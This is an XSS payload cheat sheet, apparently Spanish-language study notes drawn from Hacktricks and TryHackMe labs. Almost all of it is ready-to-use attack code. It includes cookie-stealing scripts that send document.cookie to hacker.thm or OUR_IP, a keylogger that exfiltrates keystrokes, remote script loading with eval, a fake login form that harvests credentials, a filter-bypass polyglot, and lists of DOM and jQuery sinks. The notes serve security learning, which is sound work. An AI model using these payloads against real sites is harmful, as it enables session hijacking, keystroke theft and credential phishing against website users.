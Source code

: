 ### Hacktricks:

    <img src=x onerror=alert(PAYLOAD)>

#### steal cookie:

A


    <script>fetch('http://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
B

    document.location='http://OUR_IP/index.php?c='+document.cookie;
C

    new Image().src='http://OUR_IP/index.php?c='+document.cookie;
D

    new Audio().src='http://OUR_IP/index.php?c='+document.cookie;



#### keylogger
        <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>


#### Quebrar un código JS que recibe el imput
        ';alert('THM');//

#### No HTML inject and script clean:
        <sSCRIPTcript> </sSCRIPTcript>

#### Polyglots:

        jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('porota') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('porota')//>\x3e

#### Probar si se conecta a otro servidor:
A
        <script src=http://OUR_IP></script>
B
        '><script src=http://OUR_IP></script>
C
        "><script src=http://OUR_IP></script>
D
        javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
E
        <script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
F
        <script>$.getScript("http://OUR_IP")</script>


fake form

document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


####################### DOM XSS
Las dom based no hacen transacciones con el back-end, quedan enteramente del lado del cliente. Una buena forma de probarlas es ver si un input que se muestra en la pantalla
no genera una request.
##### armado de payloads:
stored DOM xss:
<><img src=1 onerror=alert(1)>

window.location = nos permite construir un link para redireccionar a la victima a un sitio vulnerable.
innerHTML = permite agrergar un elemento al DOM, no permite agrergar scripts directamente ni svgs, pero podemos utilizar una etiqueta html para ingresar js como:<img src=1 onerror=alert(document.domain)>
eval()= 
###DOM Y JQUERY
attr()=permite modificar un elemento del dom. Podríamos aprovecharnos con un codigo como este: javascript:alert(document.domain)
$(): función selectora, nos permite inyectar objetos en el DOM. Podemos explotarlo creando un Iframe <iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">


Sinks más comunes para dom xss:
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

jquery:
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()







